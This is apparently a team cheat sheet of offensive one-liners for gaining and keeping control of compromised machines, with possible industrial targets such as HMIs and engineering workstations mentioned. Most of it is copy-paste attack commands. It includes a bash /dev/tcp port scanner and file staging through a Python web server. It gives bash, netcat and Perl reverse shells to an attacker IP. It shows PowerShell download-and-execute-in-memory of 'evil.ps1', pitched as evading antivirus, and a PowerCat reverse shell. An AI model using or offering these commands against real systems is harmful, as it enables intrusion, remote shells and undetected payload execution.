 # General-Purpose Scripts & One-Liners

**Authored by: Hex**

Team,

Time is a luxury we don't have. This file contains battle-tested, copy-paste-ready scripts for common tasks. Use them to set up listeners, transfer files, and establish footholds quickly. These are the tools that bridge the gap between initial access and full control.

---

## Bash One-Liners

For use on Linux-based targets or from our own attacker machine.

### Simple Port Scanner
A quick and dirty way to check for open ports on a target without the noise of a full Nmap scan. Useful for a first-pass check.

```bash
# Replace TARGET_IP and iterate through a port range
TARGET_IP=10.10.X.X
for port in {1..1024}; do (echo >/dev/tcp/$TARGET_IP/$port) &>/dev/null && echo "Port $port is open"; done
```

# This will serve files from the directory you run it in on port 8000
python3 -m http.server 8000

Then, on the target machine, you can use wget http://YOUR_ATTACK_IP:8000/file_to_download.


Reverse Shells

The primary goal after gaining command injection. Start your listener first: nc -lvnp [PORT].

Bash:
bash -i >& /dev/tcp/[YOUR_IP]/[PORT] 0>&1

Netcat: (Requires netcat with the -e option, which is often not available)
nc -e /bin/sh [YOUR_IP] [PORT]

Perl: (Often installed on older systems)
perl -e 'use Socket;$i="[YOUR_IP]";$p=[PORT];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


PowerShell (for Windows Targets)
If we land on a Windows host (like an HMI or Engineering Workstation), PowerShell is our best friend for "living off the land."
Download & Execute in Memory
This is the stealthiest way to run a PowerShell script on a target. It downloads the script and executes it directly in memory without ever touching the disk, making it less likely to be detected by antivirus.


# Host your evil.ps1 script on a web server (using the python one-liner above)
# This command, run on the target, will download and execute it.
powershell -c "(New-Object System.Net.WebClient).DownloadString('http://[YOUR_IP]:8000/evil.ps1') | IEX"

IEX is an alias for Invoke-Expression.


PowerCat Reverse Shell

PowerCat is a powerful PowerShell equivalent of netcat. If you can get it onto the target, it's very effective.

Start a listener on your attacker machine: nc -lvnp 4444
Host the powercat.ps1 script on your web server.

Execute this on the Windows target to download PowerCat and pipe a shell back to you:

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://[YOUR_IP]:8000/powercat.ps1');powercat -c [YOUR_IP] -p 4444 -e cmd"

